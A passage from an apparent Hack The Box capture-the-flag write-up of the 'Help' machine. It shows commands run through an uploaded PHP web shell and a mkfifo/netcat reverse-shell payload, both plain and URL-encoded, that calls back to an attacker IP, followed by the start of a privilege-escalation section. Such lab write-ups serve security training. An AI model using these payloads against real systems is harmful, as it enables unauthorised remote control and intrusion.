 `http://help.htb/support/uploads/tickets/11559b997fcb9a724cbc0e2a6a4b98a3.php?cmd=whoami`
![](/images/hackthebox/help/20.png)
<br> It's working, let's get a reverse shell, I used this payload : `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f` (url encoded)
`http://help.htb/support/uploads/tickets/11559b997fcb9a724cbc0e2a6a4b98a3.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.xx.xx%201337%20%3E%2Ftmp%2Ff`
![](/images/hackthebox/help/21.png)
<br>
<br>
![](/images/hackthebox/help/22.png)
<br> We owned user.
<br>
<hr>
## Kernel Exploit, Privilege Escalation and Root Flag
<br> Privilege escalation on this machine was very easy, just a kernel exploit. One of the first things to check after getting a shell is the system info :
`uname -a`